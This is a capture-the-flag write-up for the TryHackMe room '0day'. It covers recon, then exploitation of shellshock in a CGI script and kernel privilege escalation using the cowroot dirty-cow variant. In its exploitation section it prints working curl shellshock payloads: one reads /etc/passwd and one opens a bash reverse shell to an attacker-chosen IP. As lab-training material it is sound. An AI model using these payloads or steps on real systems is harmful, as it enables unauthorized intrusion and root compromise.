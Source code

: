 # 0day

[0day](https://www.tryhackme.com/room/0day) is a TryHackMe room created by
[MuirlandOracle](https://www.tryhackme.com/p/MuirlandOracle) and
[0day](https://www.tryhackme.com/p/0day) focused on exploiting the shellshock vulnerability.

## Recon

Grab the target IP address from TryHackMe. I like to save it as an environment
variable to save myself from retyping it:

```
export IP=<MACHINE_IP>
```

To start our recon, let's run nmap:

```
$  nmap -sV -sC -T4 $IP -oN nmap_scan.txt        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 13:47 EDT
Nmap scan report for 10.10.141.218
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol
2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.31 seconds
```

We see that port 22 (ssh) and 80 (http) are open. The OpenSSH version is
outdated, but I did not end up attempting to exploit it.

Moving on, I entered the IP address in my web browser to check out the web
server. We see this site is a developer's portfolio page:

![landing-page](./screenshots/landing-page.png)

I always go for the low-hanging fruit first, so I checked robots.txt and was greeted with the below message:

![robots](./screenshots/robots-txt.png)

Looks like this developer has a sense of humor! My next course of action was
running gobuster to search for hidden directories or files.

```
$ gobuster dir -u http://$IP:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
...
/cgi-bin              (Status: 301) [Size: 315] [--> http://10.10.141.218/cgi-bin/]
/img                  (Status: 301) [Size: 311] [--> http://10.10.141.218/img/]    
/uploads              (Status: 301) [Size: 315] [--> http://10.10.141.218/uploads/]
/admin                (Status: 301) [Size: 313] [--> http://10.10.141.218/admin/]  
/css                  (Status: 301) [Size: 311] [--> http://10.10.141.218/css/]    
/js                   (Status: 301) [Size: 310] [--> http://10.10.141.218/js/]     
/backup               (Status: 301) [Size: 314] [--> http://10.10.141.218/backup/] 
/secret               (Status: 301) [Size: 314] [--> http://10.10.141.218/secret/
```

### Whole lot of Rabbit Holes
Lots of interesting folders! However, the majority of them are clever
rabbit-holes. For example, the /backup folder contains the following private RSA
key:

![rsa key](./screenshots/rsa-key.png)

I thought this was a solid lead and spent a lot of time on trying to login to
ssh with this. The private key is passphrased protected so I used
/usr/share/john/ssh2john.py to crack it. I attempted with the usernames ryan,
admin, and root, but no luck. 


## Vulnerability Discovery

After stumbling through more rabbit holes, I ran nikto to see for any
known web vulnerabilities.

```
$ nikto -host http://$IP
...
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock'
vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
...
```

The scan tells us that there is a file named /cgi-bin/test.cgi and that is may be vulnerable to
the 'shellshock' vulnerability.

Here's the contents of /cgi-bin/test.cgi:

![test.cgi](screenshots/testcgi.png)

## The Shellshock Vulnerability

I was not familiar with the shellshock vulnerability, so I looked it up.
There is [a great slide deck from
OWASP](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)
explaining shellshock. It contains a lot of great information and demonstrates
how to exploit the shellshock vulnerability.

To summarize the slide deck, shellshock allows us to utilize bash environment
variables to achieve Remote Code Execution (RCE). There are three requirements
the victim needs to have:
1. An Apache web server
2. mod_cgi enabled
3. A "hello world" cgi script

The target has all three of these! Meaning we can execute whatever commands we
want on the web server!

## Remote Code Execution

To test out the RCE, I used curl to grab the /etc/passwd file:

```
$ curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;"
http://$IP/cgi-bin/test.cgi
```

It worked! Now, let's utilize this vulnerability to get a reverse shell. In one
tmux pane I started my netcat listener:

```
$ nc -nlvp 4444
```

And in another, I executed the reverse shell payload:

```
$ curl -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >&/dev/tcp/$YOUR_IP/4444 0>&1" http://$IP/cgi-bin/test.cgi
```

You should now have a reverse shell like the following:
```
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/usr/lib/cgi-bin$
```

## Finding user.txt

After [stabilizing my reverse
shell](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/), I found the user.txt flag in /home/ryan

```
www-data@ubuntu:/home/ryan$ cat user.txt
XXX-REDACTED-XXX
```

Now time for the root flag!

## Privilege Escalation

I used the `find` command to look for programs with the setuid bit enabled.

```
$ find / -perm -u=s -type f 2>/dev/null
...
...
/usr/bin/mtr
...
```

The mtr command seems promising. Despite having an entry in
[GTFObins](https://gtfobins.github.io/gtfobins/mtr/), I could not get it to work
to read the root flag. If anyone is able to, please let me know!

My next action was uploading and running linpeas. The script shows that the
kernel version this system is running is vulnerable for privilege escalation:

![system info](screenshots/system-info.png)

After some online web searching, I found a dirty cow varient called
[cowroot](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679) that
will give us root privileges.

I uploaded the script and compiled it as described in its documentation:

```
$ gcc cowroot.c -o cowroot -pthread
```

However, I got the following error:

```
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

According to [MuirlandOracle's excellent writeup on this
room](https://muirlandoracle.co.uk/2020/09/03/0day-writeup/#Privilege_Escalation),
this error is due to an issue in the PATH variable of this old Ubuntu system.
They provide the following command to fix it:

```
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

With the gcc compiler fixed, we can now successfully compile and run the
exploit:

```
$ gcc cowroot.c -o cowroot -pthread && ./cowroot

id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
cat /root/root.txt
XXX-REDACTED-XXX
```

Thanks for reading!
